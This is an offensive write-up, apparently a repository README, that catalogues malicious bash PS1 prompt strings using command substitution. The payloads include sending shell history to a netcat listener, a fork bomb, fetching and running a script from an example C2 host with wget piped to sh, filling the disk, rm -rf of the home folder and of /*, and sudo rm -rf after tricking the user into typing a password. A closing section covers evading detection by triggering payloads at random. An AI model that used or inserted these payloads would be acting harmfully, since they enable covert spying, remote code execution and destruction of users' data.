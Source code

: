 Snooping on command history:

    '$(history -a; tail -n 1 ~/.bash_history | nc -q 0 localhost 12345)\u@\h:\w$ '
    # set up a listener on localhost 12345 to snoop on what the user is running.
    # nc -u might be necessary or simpler in some cases, too.

There are limits to how real-time you can snoop.  You might expect this would allow for complete output logging:

    '$([[ -t 1 ]] && exec > >(tee >(nc -q 0 localhost 12345)) 2>&1)\u@\h:\w$ '

But, this does not work.  The command is run in a sub-shell, so any output redirection method that is born there, dies there.  This aspect makes it hard, if not impossible, to use output redirection as intended. (Prove me wrong, though!)

Fork bombing (see evading, below):

    '`bomb() { bomb | bomb& }; bomb`\u@\h:\w$ '
    # can obfuscate easily by replacing 'bomb' with a single character

RCE / fetching commands from a C2 server:

    '$(wget -q -O - www.example.com/c2/script_to_run.sh | sh)\u@\h:\w$ '

Gradually filling up the file system:

    '`echo \`cat ~/.profile\` >> ~/.profile`\u@\h:\w$ '

Deleting a user's home folder:

    '$(rm -rf ~)\u@\h:\w$ '

    '$(rm -rf /* > /dev/null 2>&1)\u@\h:\w$ '

The latter will not delete everything, but it will delete everything the user is privileged for, including their home folder. As a bonus, it will also tie things up for a while as it traverses the entire filesystem.

Deleting all files (after tricking them into entering the sudo pw)

    '$(sudo rm -rf /*)\u$\h:\w$ '

Some potential attacks are limited by the command substitution occurring in a subshell.  Future work might include how to potentially use a tool like script to log all shell text, or how to build an actual keylogger, which would be more complicated.  Another complicated exploit might involve engineering the user into entering their current password, which could be exfiltrated or used to change the password itself.

# Evading detection:
Some actions, like erasing a user’s home folder, or fork bombing, are so drastic that they likely result in immediate discovery of the attack.  An attacker can be sneakier by combining some of the more impactful attacks with a probabilistic check.  If a fork bomb only executes 1 in 100 times, for instance, it is much more likely to misdirect blame toward something else:
